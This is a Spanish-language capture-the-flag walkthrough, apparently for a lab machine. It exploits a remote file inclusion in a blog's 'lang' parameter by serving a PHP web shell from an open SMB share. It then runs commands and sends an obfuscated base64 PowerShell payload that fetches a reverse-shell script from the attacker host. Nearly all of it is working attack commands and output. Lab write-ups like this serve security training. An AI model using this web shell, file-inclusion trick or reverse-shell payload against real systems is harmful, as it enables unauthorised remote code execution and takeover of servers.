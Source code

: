 ```null
curl -s -X GET 'http://10.10.10.151/blog/?lang=\\10.10.16.4/pwned.php' | html2text
    * Home
    * Language
          o English
          o Spanish
          o French
    * Download
          o Tools
          o Backlink

Fostrap

OH!
***** Sorry! Page not found *****
```

Existe otra forma de hacerlo para aquellos casos en los que no se pueda ver el hash NetNTLMv2

```null
service smbd start
```

```null
net usershare add shared $(pwd) '' 'Everyone:F' 'guest_ok=y'
```

Creo un archivo en PHP que me permita ejecutar comandos

```null
catr pwned.php
<?php
  system($_REQUEST['cmd']);
?>
```

```null
curl -s -X GET 'http://10.10.10.151/blog/?lang=\\10.10.16.4\shared\pwned.php&cmd=whoami' | html2text
    * Home
    * Language
          o English
          o Spanish
          o French
    * Download
          o Tools
          o Backlink

Fostrap
nt authority\iusr
```

Me envío una reverse shell y gano acceso al sistema

```null
curl -s -X GET 'http://10.10.10.151/blog/?lang=\\10.10.16.4\shared\pwned.php&cmd=powershell+-e+SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAIgBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANgAuADQALwBJAG4AdgBvAGsAZQAtAFAAbwB3AGUAcgBTAGgAZQBsAGwAVABjAHAALgBwAHMAMQAiACkACgA=+2>%261' | html2text
```
